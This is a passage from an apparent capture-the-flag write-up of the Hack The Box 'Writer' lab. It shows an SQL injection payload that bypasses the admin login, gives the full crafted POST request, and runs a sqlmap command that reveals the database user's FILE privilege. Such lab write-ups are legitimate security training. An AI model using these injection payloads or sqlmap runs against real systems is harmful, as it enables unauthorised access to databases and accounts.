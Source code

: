sqlmap shows that this box is vulnerable to a "time-based blind" attack.  Now, I went down this path because I could not find another avenue, but as this method takes a very long time, I'll inform you that it is also vulnerable to a non-blind attack which I'll further describe.

### Administrative login bypass

Taking just the last bit of the sqlmap query and making it a little simpler, we are able to bypass the login page, using this value for admin: `admin' OR 1 AND 'wrdL'='wrdL`  Putting this into a request and url encoding the value we have:

```plaintext
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://writer.htb/administrative
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://writer.htb
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin'+OR+1+AND+'wrdL'%3d'wrdL&password=admin
```

When this post request is sent through burpsuite, we are presented with the following page:

![Admin Redirect](images/htbwriter/admin.png)

Which then redirects us to the dashboard:

![Admin Dashboard](images/htbwriter/dashboard.png)

Now if you notice in the top corner of this page, it actually displays the query that we sent via the POST request.  I discovered after I had completed the box that you can actually get the output of your query on the Admin Redirect page which will prevent you from needing to do blind SQL injection.  But alas, I did not realize this and so I will show you the blind SQL injection that I did using sqlmap.

### Database Privileges

First, we want to get our privileges to see what we can do as the database user:

```Awk
└─# sqlmap -u "http://writer.htb/administrative" --data "uname=user&password=pass" --risk 3 --threads=10 --privileges

database management system users privileges:
[*] %admin% [1]:
    privilege: FILE

```
